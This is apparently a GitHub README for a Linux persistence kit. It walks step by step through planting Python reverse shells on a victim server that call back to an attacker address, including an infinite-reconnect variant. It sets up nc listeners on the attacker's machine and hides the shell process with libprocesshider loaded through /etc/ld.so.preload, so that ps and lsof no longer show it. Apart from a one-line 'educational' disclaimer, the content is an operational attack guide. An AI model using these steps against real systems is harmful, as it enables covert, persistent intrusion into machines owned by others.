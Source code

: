 <h1 style="font-size:10vw" align="left">Linux Persistence Access </h1>

## Warning
⚠️ *For educational and authorized security research purposes only*

## Original Exploit Authors
[@gianlucaborello](https://github.com/gianlucaborello), [@therealdreg](https://github.com/therealdreg)

## Exploit Description
This script is python based and is used to create a reverse shell of the victim machine. There are two scripts, the first one is used for a one-time reverse shell and the other for an infinite reverse shell with a loop mechanism every 2 seconds. And to improve defense evasion, we'll hide processes on Linux using the ld preloader.

## Demo
![Animation](https://github.com/asepsaepdin/libprocesshider/assets/122620685/5fde2a4d-355d-46cc-b211-08e9a352b83d)

## Step Guides
1. Establish a connection to victim's machine using SSH
```
┌──(kali㉿kali)-[~]
└─$ ssh administrator@www.servint.org
```
2. Change s.connect(("**172.16.10.7**",**2220**)) in the shell.py file with the perpetrator's address for one-time reverse shell
3. Change sdregs.connect(("**172.16.10.7**",**9999**)) in the loop-shell.py with the perpetrator's address for infinite reverse shell
4. Make shell.py and loop-shell.py executable:
```
administrator@Server-01:/tmp/libprocesshider$ chmod +x shell.py
administrator@Server-01:/tmp/libprocesshider$ chmod +x loop-shell.py
```
5. Change static const char* process_to_filter = "**shell.py**"; in the processhider.c with the script you want to use
6. Then, compile the library:
```
administrator@Server-01:/tmp/libprocesshider$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
administrator@Server-01:/tmp/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```
6. Then, Load it with the global dynamic linker
```
root@Server-01:~# echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```
7. Create new terminal on perpetrator's machine and run this command for connect with one-time reverse shell and this command for infinite reverse shell::
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 2220
```
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9999
```
8. Run shell.py or loop-shell.py:
```
administrator@Server-01:/tmp/libprocesshider$ ./shell.py
administrator@Server-01:/tmp/libprocesshider$ ./loop-shell.py
```
9. And your process will be off the radar 
```
administrator@Server-01:/tmp/libprocesshider$ sudo ps aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
```
```
administrator@Server-01:/tmp/libprocesshider$ sudo lsof -ni
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
```

## Exploit Requirements
- python3
- gcc

## Credits
- https://sysdigcloud.com/hiding-linux-processes-for-fun-and-profit/
- https://github.com/gianlucaborello/libprocesshider
- https://github.com/therealdreg/python_reverse_shell_detached_background
- https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/cd15b05d-822f-494d-939a-ae5a671222ff.xhtml
